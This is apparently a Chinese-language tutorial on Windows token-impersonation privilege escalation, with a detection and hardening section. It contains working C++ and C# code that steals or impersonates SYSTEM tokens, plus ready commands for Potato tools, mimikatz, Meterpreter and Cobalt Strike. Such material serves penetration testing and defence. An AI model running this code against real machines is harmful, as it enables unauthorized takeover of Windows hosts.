


> 环境：Windows 10 / 11、Windows Server 2016 / 2019 / 2022。部分技术需管理员权限或对应特权。

***

## 一、Windows 访问令牌基础

访问令牌是描述进程或线程安全上下文的内核对象：

| 概念 | 说明 |
|------|------|
| **Primary Token** | 进程的主令牌，决定其安全上下文 |
| **Impersonation Token** | 线程临时模拟某一用户时使用的令牌 |
| **Privileges** | 令牌持有的特权列表 |

本攻击面涉及三项核心特权：

| 特权 | 典型持有者 | 攻击价值 |
|------|-----------|---------|
| `SeImpersonatePrivilege` | IIS、MSSQL 等服务账户 | 模拟连接客户端的令牌 |
| `SeAssignPrimaryTokenPrivilege` | SYSTEM、LocalService | 为进程分配主令牌 |
| `SeDebugPrivilege` | 管理员（需手动启用） | 打开任意进程、复制其令牌 |

检查特权：`whoami /priv`

---

## 二、攻击链路总览



---

## 三、Potato 家族：SeImpersonatePrivilege 利用

### 3.1 核心原理

服务账户持有 `SeImpersonatePrivilege` → 通过 COM / RPC 诱使 SYSTEM 向攻击者监听端口发起 NTLM 认证 → 完成 NTLM 协商后调用 `ImpersonateSecurityContext` 获得 SYSTEM 模拟令牌 → 使用该令牌创建 SYSTEM 进程。

```
攻击者 (低权限)                         SYSTEM 进程
    │                                      │
    │ ① 创建监听端口 / 命名管道              │
    │ ② 触发 RPC/COM 使 SYSTEM 发起认证     │
    │ ← ← ← ← SYSTEM NTLM 认证 ← ← ← ← ← │
    │ ③ AcceptSecurityContext 完成握手       │
    │ ④ ImpersonateSecurityContext 获得令牌 │
    │ ⑤ DuplicateTokenEx + CreateProcessAsUser
    ▾
  SYSTEM Shell
```

### 3.2 工具对比

| 工具 | 原理 | 有效版本 | 特性 |
|------|------|---------|------|
| **JuicyPotato** | DCOM + BITS CLSID | Win7 ~ 10 1607, Svr2016 | 经典，需有效 CLSID |
| **RoguePotato** | OXID 解析器劫持 | Win10 1809+, Svr2019+ | 需远程攻击机辅助 |
| **PrintSpoofer** | Spooler 命名管道 | Win10, Svr2019/2022 | 纯本地利用 |
| **EfsPotato** | MS-EFSR RPC | Win10, Svr2019/2022 | 纯本地利用 |
| **GodPotato** | DCOM + 多管道 | Win10+, Svr2012~2022 | 最新，兼容性最广 |

**JuicyPotato：**

```bash
JuicyPotato.exe -t * -p cmd.exe -l 1337
# -t: t=CreateProcessWithToken, u=CreateProcessAsUser, *=两者
# -p: 程序路径, -l: 监听端口, -c: COM CLSID
```

**PrintSpoofer：**

```bash
PrintSpoofer.exe -i -c cmd.exe
```

**RoguePotato：**

```bash
# 攻击机: socat TCP-LISTEN:135,reuseaddr,fork TCP:目标IP:9999
RoguePotato.exe -r 攻击者IP -e "cmd.exe" -l 9999
```

**EfsPotato 核心代码（C#）：**

```csharp
using var pipe = new NamedPipeServerStream("testpipe",
    PipeDirection.InOut, 1, PipeTransmissionMode.Byte, PipeOptions.Asynchronous);
EfsRpcTrigger(pipe.SafePipeHandle.DangerousGetHandle());
pipe.WaitForConnection();
pipe.RunAsClient(() => { Process.Start("cmd.exe"); });
```

---

## 四、命名管道模拟

### 4.1 原理

持有 `SeImpersonatePrivilege` 的进程创建命名管道，当高权限客户端连接时调用 `ImpersonateNamedPipeClient` 获取客户端令牌。

```
攻击者                                SYSTEM 进程
  │                                      │
  │ CreateNamedPipe("\\.\pipe\evil")      │
  │ 触发 RPC (EFS/Spooler/BITS)           │
  │ ← ← ← ← SYSTEM 连接管道 ← ← ← ← ← ←│
  │ ImpersonateNamedPipeClient            │
  │ DuplicateTokenEx + CreateProcessAsUser
  ▾
SYSTEM Shell
```

### 4.2 C++ 实现

```cpp
#include <windows.h>
#include <iostream>

int main() {
    HANDLE hPipe = CreateNamedPipeA("\\\\.\\pipe\\privpipe",
        PIPE_ACCESS_DUPLEX, PIPE_TYPE_BYTE | PIPE_WAIT, 1, 2048, 2048, 0, NULL);

    if (ConnectNamedPipe(hPipe, NULL) || GetLastError() == ERROR_PIPE_CONNECTED) {
        if (ImpersonateNamedPipeClient(hPipe)) {
            HANDLE hToken;
            OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken);
            STARTUPINFO si = { sizeof(si) }; PROCESS_INFORMATION pi;
            CreateProcessWithTokenW(hToken, 0, L"cmd.exe", NULL, 0, NULL, NULL, &si, &pi);
            printf("[+] SYSTEM Shell PID: %d\n", pi.dwProcessId);
            RevertToSelf(); CloseHandle(hToken);
        }
    }
    DisconnectNamedPipe(hPipe); CloseHandle(hPipe);
    return 0;
}
```


---

## 五、SeAssignPrimaryTokenPrivilege 利用

将模拟令牌通过 `DuplicateTokenEx(TokenPrimary)` 提升为主令牌，再用 `CreateProcessAsUser` 分配。

```cpp
HANDLE hImpersonationToken; // 通过 Potato/管道获得
HANDLE hPrimaryToken;

DuplicateTokenEx(hImpersonationToken, TOKEN_ALL_ACCESS, NULL,
    SecurityImpersonation, TokenPrimary, &hPrimaryToken);

STARTUPINFOW si = { sizeof(si) }; PROCESS_INFORMATION pi;
CreateProcessAsUserW(hPrimaryToken, NULL, L"cmd.exe",
    NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
```

---

## 六、SeDebugPrivilege —— LSASS / winlogon 令牌窃取

### 6.1 原理

`SeDebugPrivilege` 允许打开任意 SYSTEM 进程。流程：启用特权 → 打开 `winlogon.exe` → 获取令牌 → 复制 → 以 SYSTEM 启动进程。

### 6.2 C++ 完整实现

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>
#pragma comment(lib, "advapi32.lib")

int GetPID(const wchar_t* name) {
    HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32W pe = { sizeof(pe) }; int pid = 0;
    if (Process32FirstW(snap, &pe)) {
        do { if (!_wcsicmp(pe.szExeFile, name)) { pid = pe.th32ProcessID; break; }
        } while (Process32NextW(snap, &pe));
    }
    CloseHandle(snap); return pid;
}

BOOL EnablePriv(const wchar_t* priv) {
    HANDLE hToken; TOKEN_PRIVILEGES tp; LUID luid;
    OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES|TOKEN_QUERY, &hToken);
    LookupPrivilegeValueW(NULL, priv, &luid);
    tp.PrivilegeCount = 1; tp.Privileges[0].Luid = luid;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    BOOL r = AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
    CloseHandle(hToken); return r && GetLastError() == ERROR_SUCCESS;
}

int main() {
    if (!EnablePriv(L"SeDebugPrivilege")) { return 1; }
    int pid = GetPID(L"winlogon.exe");
    HANDLE hProc = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, pid);
    HANDLE hToken, hDup;
    OpenProcessToken(hProc, TOKEN_DUPLICATE|TOKEN_ASSIGN_PRIMARY|TOKEN_QUERY, &hToken);
    DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hDup);
    STARTUPINFOW si = { sizeof(si) }; PROCESS_INFORMATION pi;
    CreateProcessWithTokenW(hDup, 0, L"cmd.exe", NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
    printf("[+] SYSTEM Shell PID: %d\n", pi.dwProcessId);
    CloseHandle(hDup); CloseHandle(hToken); CloseHandle(hProc);
    return 0;
}
```

### 6.3 mimikatz / Incognito 操作

```bash
# mimikatz
mimikatz # privilege::debug
mimikatz # token::elevate /system

# Meterpreter / Cobalt Strike
meterpreter > load incognito
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
beacon> steal_token <PID>
beacon> rev2self
```

---

## 七、Meterpreter getsystem 内部机制

### 7.1 三种技术

| 技术 | 原理 | 前置条件 |
|------|------|---------|
| **Technique 0** | 命名管道模拟 + SCM 触发 | `SeImpersonatePrivilege` |
| **Technique 1** | OpenProcessToken + DuplicateTokenEx | `SeDebugPrivilege` |
| **Technique 2** | 计划任务 Token Duplication | 管理员权限 |

### 7.2 内部流程

**Technique 0（命名管道模拟）：**



**Technique 1（令牌复制）：** ① 启用 SeDebugPrivilege → ② OpenProcess(winlogon.exe) → ③ OpenProcessToken → ④ DuplicateTokenEx → ⑤ CreateProcessWithTokenW → SYSTEM Shell。

```bash
meterpreter > getsystem -t 1    # 令牌复制
meterpreter > getsystem -t 0    # 命名管道
meterpreter > getsystem         # 自动尝试所有
```


---

## 八、防御与检测

### 8.1 关键检测指标

| 检测维度 | 特征 | 日志来源 |
|---------|------|---------|
| 进程创建 | cmd.exe 父进程为非标准 SYSTEM 进程 | Sysmon Event 1 |
| 特权启用 | 非服务进程启用 SeImpersonatePrivilege | Sysmon Event 8 |
| 命名管道 | 异常格式的命名管道 | Sysmon Event 17,18 |
| 令牌操作 | DuplicateTokenEx / ImpersonateLoggedOnUser | EDR Hook |
| 特殊登录 | 4672 中敏感特权分配 | Security Event 4672 |
| NTLM 回环 | 源 IP = 127.0.0.1 | Network Monitor |

```xml
<!-- Sysmon: 检测异常进程的敏感特权访问 -->
<Sysmon schemaversion="4.22">
  <EventFiltering>
    <ProcessAccess onmatch="include">
      <GrantedAccess>0x1FFFFF</GrantedAccess>
      <SourceImage condition="image">cmd.exe</SourceImage>
      <SourceImage condition="image">powershell.exe</SourceImage>
    </ProcessAccess>
  </EventFiltering>
</Sysmon>
```

### 8.2 加固措施

1. **审计并移除非必要服务账户的 `SeImpersonatePrivilege`**：IIS / MSSQL 等服务使用虚拟账户或 gMSA
2. **服务账户最小权限原则**：组策略审计特权分配
3. **启用 Credential Guard**：隔离 LSASS，阻止令牌窃取
4. **启用 WDAC / AppLocker**：限制可执行文件来源
5. **主机防火墙**：限制异常本地回环 RPC 通信

### 8.3 关键事件 ID

| Event ID | 说明 |
|---------|------|
| 4672 | 为新登录分配特殊特权 |
| 4688 | 进程创建（关注异常父 PID） |
| 4698 | 计划任务创建 |

---

## 九、总结

| 特权 | 利用方式 | 代表工具 |
|------|---------|---------|
| `SeImpersonatePrivilege` | 命名管道 + NTLM 反射 / COM 劫持 | PrintSpoofer, EfsPotato, GodPotato |
| `SeAssignPrimaryTokenPrivilege` | 令牌复制 + CreateProcessAsUser | 自定义代码, PPID Spoofing |
| `SeDebugPrivilege` | 读取 SYSTEM 进程 → 复制令牌 | mimikatz, getsystem -t 1 |
| 无敏感特权 | UAC 绕过 / 内核提权 | fodhelper, CVE-20XX |

> **核心认知**：令牌模拟利用的是 Windows 正常安全机制而非漏洞。防御重点在于**减少特权分配**和**加强监控**，而非等待补丁。

---

## 参考资源

- [JuicyPotato](https://github.com/ohpe/juicy-potato)
- [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) · [原理分析](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
- [RoguePotato](https://github.com/antonioCoco/RoguePotato)
- [EfsPotato](https://github.com/bugch3ck/SharpEfsPotato)
- [GodPotato](https://github.com/BeichenDream/GodPotato)
- [SweetPotato](https://github.com/CCob/SweetPotato)
- [Tokenvator](https://github.com/0xbadjuju/Tokenvator)
- [MS Docs: Access Tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)

***

> **免责声明**：本文所述技术仅供安全研究、授权渗透测试及防御建设使用。未经授权对计算机系统进行攻击或测试属于违法行为。作者对因滥用本文内容而导致的任何后果概不负责。
